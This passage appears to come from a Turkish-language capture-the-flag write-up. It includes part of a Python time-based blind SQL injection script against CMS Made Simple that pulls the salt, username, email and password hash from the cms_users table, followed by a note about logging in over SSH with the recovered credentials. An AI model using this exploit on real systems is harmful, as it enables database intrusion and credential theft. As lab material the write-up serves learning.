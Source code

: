 ```
    output += '\n[+] Username found: ' + db_name
    flag = True
    print('[+] Username found: ' + db_name)

def dump_email():
    global flag, email, output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + format(ord(dictionary[i]), 'x')
            payload = (
                "a,b,1,5))+and+(select+sleep(" + str(TIME) +
                ")+from+cms_users+where+email+like+0x" +
                ord_email_temp + "25+and+user_id+like+0x31)+--+"
            )
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True
    print('[+] Email found: ' + email)

# SQL Injection adımları
dump_salt()
dump_username()
dump_email()
dump_password()

if options.cracking:
    print(colored("[*] Now try to crack password", "yellow"))
    crack_password()

beautify_print()
```

![Pasted image 20250204201727.png](/img/user/Pasted%20image%2020250204201727.png)

### SSH as jkr
Parola ve kullanıcı adı ile writeup'a ssh ile bağlanabiliyorum:

![Pasted image 20250204201841.png](/img/user/Pasted%20image%2020250204201841.png)
